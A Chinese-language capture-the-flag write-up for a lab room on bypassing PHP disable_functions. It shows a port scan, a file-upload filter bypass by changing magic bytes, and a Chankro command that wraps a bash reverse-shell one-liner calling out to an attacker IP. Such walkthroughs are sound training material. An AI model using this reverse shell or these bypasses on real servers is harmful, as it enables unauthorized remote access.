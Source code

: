 ```yaml
---
sidebar_position: 2
tags: [Easy, Linux, 文件上传]
title: Bypass Disable Functions
description: 在 PHP 文件上传时遇到函数限制如何绕过
sidebar_label: Bypass Disable Functions
---
```

# Bypass Disable Functions
## 端口扫描
```bash
root@ip-10-10-239-179:~# rustscan -a 10.10.12.68 -r 1-65535 -t 1000 -u 1000 -- -sT
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] Automatically increasing ulimit value to 1000.
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.12.68:22
Open 10.10.12.68:80
```
## 80
经过简单的查询我们发现了一个文件上传的位置：

![20240525004016](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525004016.png)

我们来下载一个反向 SHELL 文件， 下载到本地后， 开启我们的 Burp, 进行拦截发包， 经过测试发现只能上传 `.jpg` 文件， 此时我们需要绕过后端过滤, 经过查询后发现修改文件幻数就可以绕过检测

![20240525004030](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525004030.png)

现在我们来查找一下对应的上传位置, 发现文件上传位置， 我们进行访问

![20240525004044](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525004044.png)

我们来访问我们的文件可以发现获取到 SHELL  但是马上关闭， 我们查看房间， 了解到需要做一些规避

首先根据提示内容， 我们需要先找到对应服务器的路径， 在目录遍历时， 我们发现了一个 `phpinfo()` 在此我们可以找到对于服务器路径

![20240525004059](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525004059.png)

然后我们下载对应的文件以及对应的 payload 来生成我们的 rev.php
```bash
$ cat rev.sh                                                                                    ✔ 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.13.31.216/4444 0>&1
$ python2 chankro.py --arch 64 --input rev.sh --output rev.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db


     -=[ Chankro ]=-
    -={ @TheXC3LL }=-


[+] Binary file: rev.sh
[+] Architecture: x64
[+] Final PHP: rev.php


[+] File created!
```
按照前面的思路再次将文件上传上去之后， 在本地开启监听进行检测

![20240525004131](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525004131.png)

